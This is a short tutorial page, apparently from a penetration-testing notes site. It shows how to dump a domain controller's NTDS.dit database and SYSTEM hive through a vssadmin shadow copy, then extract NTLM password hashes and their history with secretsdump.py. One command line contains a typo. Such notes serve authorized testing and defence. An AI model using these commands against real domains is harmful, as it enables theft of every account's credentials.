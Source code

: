```yaml
---
title : "NTDS.dit Dump & Extract"
# pre : ' '
description : "How to dump NTDS.dit and extract the hashes with ShadowCopy and Secretsdump."
date : 2022-01-18T10:07:23+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## NTDS.dit Dump&Extract

On Domain Controller - create snapshot with `vssadmin.exe`.

```plain
PS C:\temp> vssadmin.exe create shadow /for=C:
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {3d781b5d-e053-41ad-85d4-5b8f1ffb2d42}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy5
PS C:\temp>
```

To make it easy for yourself and extract the `ntds.dit` and `SYSTEM` file from the ShadowCopy, you can use [ShadowCopyView](https://www.nirsoft.net/utils/shadow_copy_view.html)

{{%attachments title="Related files" fa_icon_class="far fa-file-archive" pattern=".*(zip)"/%}}

### Copy NTDS.dit

Path: `C:\Windows\NTDS\ntds.dit`

![example](images/example1.png)

### Copy SYSTEM

Path: `C:\Windows\System32\config\SYSTEM`

![example](images/example2.png)

### Remove the created VSS Shadow Copy

```plain
vssadmin.= delete shadows /for=c: /shadow=<ShadowID>
```

### Extract hashes

```plain
secretsdump.py -system SYSTEM -ntds ntds.dit -hashes lmhash:nthash LOCAL -outputfile extracted-hashes -just-dc-ntlm -user-status -history
```

### URL list

* [Stealthbits.com - Extracting Password Hashes from the Ntds.dit File](https://stealthbits.com/blog/extracting-password-hashes-from-the-ntds-dit-file/)
